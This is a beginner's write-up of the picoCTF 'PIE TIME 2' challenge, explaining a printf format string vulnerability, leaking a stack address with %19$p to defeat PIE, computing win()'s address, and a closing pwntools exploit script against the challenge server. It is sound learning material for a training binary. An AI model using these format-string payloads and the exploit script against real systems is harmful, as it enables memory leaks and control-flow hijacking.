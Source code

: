 # picoCTF PIE TIME 2


## Description:
[https://play.picoctf.org/practice/challenge/491?category=6&page=1](https://play.picoctf.org/practice/challenge/491?category=6&page=1)
![description](./images/picoCTF-PIE-TIME-2-screenshots/description.png)

### Downloaded the source code and the binary, and changed the binary to an executable.

```bash
wget <url_of_sourcecode>
wget <url_of_binary>
```
```bash
sudo chmod +x <binary_file>
```

### Ran the binary, and it asked me to enter my name as input.

![input-name](./images/picoCTF-PIE-TIME-2-screenshots/name-input-prompt.png)

### I entered random characters and it returned the same characters as output, and just like the previous challenge [(Pie Time)](https://github.com/Servant0fGod/Hacking-Notes/blob/main/Reverse-Engineering_And_Binary-Exploitation/Memory-Addresses/picoCTF-PIE-TIME.md), the program asked me to enter an address to jump to. I entered a random value and it exited.

![random](./images/picoCTF-PIE-TIME-2-screenshots/random-values.png)

### I opened the source code in VScode to check it out, and again there's a win() function that doesn't get called in main().

#### win()

![win-code](./images/picoCTF-PIE-TIME-2-screenshots/win-code.png)

#### main()

![main-code](./images/picoCTF-PIE-TIME-2-screenshots/main-code.png)


### There's also a key function, call_functions() that gets called in main(). This is the function responsible for: prompting me to enter my name, returns the name as output, asks me to enter an address which triggers win() if correct. Having familiarity with C, I immediately noticed that the printf() function had no format specifiers in it, and that it directly passes the input string variable as the argument without any restrictions.

![call_functions](./images/picoCTF-PIE-TIME-2-screenshots/call_functions-code.png)



### After some research, this is called the Format String Vulnerability, that allows the attacker to leak data from the stack if they control the argument of printf(). Passing %x.%x.%x.%x to the input would print back four hexadecimal values from the stack.


#### Materials I've read through:

- **[https://owasp.org/www-community/attacks/Format_string_attack](https://owasp.org/www-community/attacks/Format_string_attack)**

- **[https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)**

- **[https://www.geeksforgeeks.org/format-specifiers-in-c/](https://www.geeksforgeeks.org/format-specifiers-in-c/)**

- **[https://ctf101.org/binary-exploitation/what-is-the-stack/](https://ctf101.org/binary-exploitation/what-is-the-stack/)**

- **[https://sourceware.org/gdb/current/onlinedocs/gdb.html/](https://sourceware.org/gdb/current/onlinedocs/gdb.html/)**

### Knowing that I needed an address, I went ahead an tried %x and %p


#### %x:

![%x](./images/picoCTF-PIE-TIME-2-screenshots/specifier-x.png)

#### %p:

![%p](./images/picoCTF-PIE-TIME-2-screenshots/specifier-p.png)

### I tried entering a bunch of different addresses that the program output for me but none of them worked, the program kept crashing.

![crash](./images/picoCTF-PIE-TIME-2-screenshots/crash.png)


### I loaded the program using gdb to see the addresses and the offset between main() and win()

```bash
gdb ./vuln
```

```bash
(gdb) disassemble main
```

```bash
(gdb) disassemble win
```

### Okay so main() is at 0x1400, win() is at 0x136a and the offset between them is 150 (0x96 in hex), Just like the previous challenge.


#### Address of main()
![main-address](./images/picoCTF-PIE-TIME-2-screenshots/main-address.png)

#### Address of win()

![win-address](./images/picoCTF-PIE-TIME-2-screenshots/win-address.png)

#### Using python to calculate the offset

```bash
python -c "print(0x1400 - 0x136a)"
```
![offset-calc](./images/picoCTF-PIE-TIME-2-screenshots/offset-calc.png)

### Now all I need is to find out main()'s address at runtime since PIE is enabled, and subtract 150 from it to get win()'s address. while trying to find an address that ended with 400 by leaking addresses from the stack, I found the address: 0x5603d9e93441 ending with 441, which is the closest I can find.

![0x5603d9e93441](./images/picoCTF-PIE-TIME-2-screenshots/0x5603d9e93441.png)

### Looking at the disassembled main() function in gdb, I found that the address ending with 441 belonged to the assembly instruction `mov $0x0,%eax` in main().

![mov-instruction](./images/picoCTF-PIE-TIME-2-screenshots/mov-instruction.png)

### Now I need to:

- **connect to the remote server.**

- **leak the address of the mov instruction.**

- **replace the last two digits (41) with 00 to make it 400 in order to get the runtime address of main().**

- **then I would be able to get the runtime address of win() by subtracting 150 from main().**

#### Also by reading through the Format String Vulnerability articles, I found out that I can index between the values I'm leaking by using the syntax `%n$p` where "n" is the index so, 19th position in my case.



```bash
nc <target_address> <target_port>
```

### By connecting and entering `%19$p` as input, I got the address 0x5bca88223441 (the runtime address for the assembly instruction `mov $0x0,%eax` in main()).

![getting-mov](./images/picoCTF-PIE-TIME-2-screenshots/mov-runtime.png)

### Replaced the last two digits with 00 making it 0x5bca88223400 and subtracted 150 from it and got 0x5bca8822336a (runtime address of win())

```bash
python -c "print(hex(0x5bca88223400 - 0x96))"
```

![win-calc](./images/picoCTF-PIE-TIME-2-screenshots/win-calc.png)

### Flag obtained!

![flag](./images/picoCTF-PIE-TIME-2-screenshots/flag.png)

## Conclusion:

- **learned about the format string vulnerability, and ways to exploit it.**

- **Got introduced to GDB the gnu debugging tool, and how to read  x86_64 assembly code (AT&T Syntax).**
- **Learned basic concepts of the stack and stack frames.**

### Also, as a beginner I wanted to start learning python scripting so, I tried to craft this simple script using python's [Pwntools](https://github.com/Gallopsled/pwntools) library, that lets me get the flag with one command.


<details>
<summary><b>Script trial and error</b></summary>

### Messing around with digits

![digits](./images/picoCTF-PIE-TIME-2-screenshots/Script/digit_replacement.png)

### Got the leaked addresses however, I needed to use the .split() function to use the for loop effectively
![leaked addresses](./images/picoCTF-PIE-TIME-2-screenshots/Script/leaked_addresses.png)

### Added split()
![addresses with spaces](./images/picoCTF-PIE-TIME-2-screenshots/Script/split.png)

### Testing the for loop
![mov](./images/picoCTF-PIE-TIME-2-screenshots/Script/testing_for_loop.png)

### Replacing the last two digits and isolating main's address
![main](./images/picoCTF-PIE-TIME-2-screenshots/Script/isolating_main.png)

### Calculating win's address and checking it's output
![win](./images/picoCTF-PIE-TIME-2-screenshots/Script/getting_win.png)

### Converting the result to a hex string
![win-hex](./images/picoCTF-PIE-TIME-2-screenshots/Script/hex.png)

### Encoding the hex string into a bytes string (raw binary data) using `.encode()` and checking the output 
![win-bytes](./images/picoCTF-PIE-TIME-2-screenshots/Script/encode.png)

### It seems that `"%p " * 30` is causing the program to crash
![crash](./images/picoCTF-PIE-TIME-2-screenshots/Script/crash.png)

### Looking at previous output to confirm the crash
![Seg](./images/picoCTF-PIE-TIME-2-screenshots/Script/segfault.png)

### Checking the C code again, the space being allocated for the input string is 64 bytes, and the fgets()' restriction is set to 64 as well. And since "%p " times 30 is 90 bytes, this is probably whats causing the crash
![C code](./images/picoCTF-PIE-TIME-2-screenshots/Script/64Byte_restriction.png)

### So I went ahead and changed it to `"%p " * 20`, equal to 60 bytes
![* 20](./images/picoCTF-PIE-TIME-2-screenshots/Script/fixed_string.png)

### Whoops, typo
![typo](./images/picoCTF-PIE-TIME-2-screenshots/Script/typo.png)

### Fixed the typo and ran the script, and seems like it's working just fine
![local_flag](./images/picoCTF-PIE-TIME-2-screenshots/Script/local_flag.png)

### Time to change "process" to "remote" to test if it actually gets the flag via connecting to the target machine... which worked as intended and got me the flag
![flag](./images/picoCTF-PIE-TIME-2-screenshots/Script/flag.png)

### Looking at proper for loop syntax, I realized that I don't need to use "i" and "enumerate()" unless I wanted to print index values. So I changed it to `for leak in leaked_addresses`
![new_for_loop](./images/picoCTF-PIE-TIME-2-screenshots/Script/flag2.png)




</details>

---

```python
from pwn import *




program = remote("<target_addresss>", <target_port>)


program.sendlineafter(b"name:", b"%p " * 20)


leaked_addresses = program.recvline().decode().split()

for leak in leaked_addresses:
    if leak.startswith("0x") and leak.endswith("441"):
        main = leak[:-2] + "00"

win = hex(int(main, 16) - 150)

win = win.encode()

program.sendlineafter(b"12345:", win)

program.interactive()

```

![flag](./images/picoCTF-PIE-TIME-2-screenshots/Script/flag2.png)

---